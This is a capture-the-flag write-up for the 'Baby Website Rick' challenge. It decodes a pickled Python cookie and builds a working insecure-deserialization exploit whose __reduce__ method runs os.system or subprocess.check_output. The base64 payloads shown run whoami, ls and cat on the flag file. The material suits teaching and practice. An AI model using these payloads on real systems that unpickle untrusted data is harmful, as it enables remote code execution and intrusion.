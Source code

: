# Baby Website Rick

## Analysis

![](../../.gitbook/assets/image%20%2831%29.png)

All the references to **pickles** implies it's an **insecure deserialization** challenge. [`pickle`](https://docs.python.org/3/library/pickle.html) is a serialization format used in python.

If we check the cookies, we get the following:

```text
plan_b=KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

Our guess is that this is a pickled python object, and decoding the base64 seems to imply that to us too:

```text
$ echo 'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu' | base64 -d
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

## Unpickling

Let's immediately try to unpickle the data, which should give us a feel for how data is parsed:

```python
from base64 import b64decode

import pickle

code = b'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu'

serum = pickle.loads(b64decode(code))
print(serum)
```

```text
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 7, in <module>
    serum = pickle.loads(b64decode(code))
AttributeError: Can't get attribute 'anti_pickle_serum' on <module '__main__' from 'deserialize.py'>
```

The error is quite clear - there's no `anti_pickle_serum` variable. Let's add one in and try again.

```python
code = b'KGRwMApT[...]'
anti_pickle_serum = 'test'
```

That error is fixed, but there's another one:

```text
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 8, in <module>
    serum = pickle.loads(b64decode(code))
  File "/usr/lib/python3.8/copyreg.py", line 43, in _reconstructor
    obj = object.__new__(cls)
TypeError: object.__new__(X): X is not a type object (str)
```

Here it's throwing an error because X \(`anti_pickle_serum`\) **is not a type object** - so let's make it a class extending from `object`!

```python
# [imports]
class anti_pickle_serum(object):
    def __init__(self):
        pass
# [...]
```

And now there's no error, and we get a response!

```text
$ python3 deserialize.py 
{'serum': <__main__.anti_pickle_serum object at 0x7f9e1a1b1c40>}
```

So the cookie is the pickled form of a dictionary with the key `serum` and the value of an `anti_pickle_serum` class! Awesome.

## Exploitation

For an introduction to pickle exploitation, I highly recommend [this blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Essentially, the `__reduce__` dunder method tells pickle how to deserialize, and to do so it takes a **function** and a **list of parameters**. We can set the function to `os.system` and the parameters to the code to execute!

```python
from base64 import b64encode

import pickle
import os

class anti_pickle_serum(object):
    def __reduce__(self):               # function called by the pickler
        return os.system, (['whoami'],)

code = pickle.dumps({'serum': anti_pickle_serum()})
code = b64encode(code)
print(code)
```

Here we create the malicious class, then serialize it as part of the dictionary as we saw before.

```text
$ python3 final.py 
b'gASVLAAAAAAAAAB9lIwFc2VydW2UjAVwb3NpeJSMBnN5c3RlbZSTlIwGd2hvYW1plIWUUpRzLg=='
```

Huh, that looks nothing like the original cookie value \(which starts with `KGRwMApTJ3`\)... maybe we missed something with the `dumps`?

Checking out the [`dumps()`](https://docs.python.org/3/library/pickle.html#pickle.dumps) documentation, there is a `protocol` parameter! If we [read a bit deeper](https://docs.python.org/3/library/pickle.html#data-stream-format), this can take a value from `0` to `5`. If we play around, `protocol=0` looks similar to the original cookie:

```python
code = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
```

```text
$ python3 final.py 
b'KGRwMApWc2VydW0KcDEKY3Bvc2l4CnN5c3RlbQpwMgooVndob2FtaQpwMwp0cDQKUnA1CnMu'
```

Let's change the cookie to this \(without the `b''`\):

![](../../.gitbook/assets/image%20%2834%29.png)

As you can see now, the value `0` was returned. This is the return value of `os.system`! Now we simply need to find a function that returns the result, and we'll use `subprocess.check_output` for that.

{% hint style="danger" %}
For reasons unknown to me, python3 pickles this differently to python2 and doesn't work. I'll therefore be using python2 from now on, but if anybody know why that would happen, please let me know!
{% endhint %}

```python
return subprocess.check_output, (['ls'],)
```

Now run it

```text
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4=
```

And input it as the cookie.

![](../../.gitbook/assets/image%20%2833%29.png)

As can now see that there is a `flag_wIp1b` file, so we can just read it!

While it's tempting to do

```python
return subprocess.check_output, (['cat flag_wIp1b'],)
```

`subprocess.check_output` requires a **list** of parameters \(as we see here\) and the filename is a separate item in the list, like so:

```python
return subprocess.check_output, (['cat', 'flag_wIp1b'],)
```

```text
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu
```

And boom - we get the flag!

![](../../.gitbook/assets/image%20%2832%29.png)

`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`

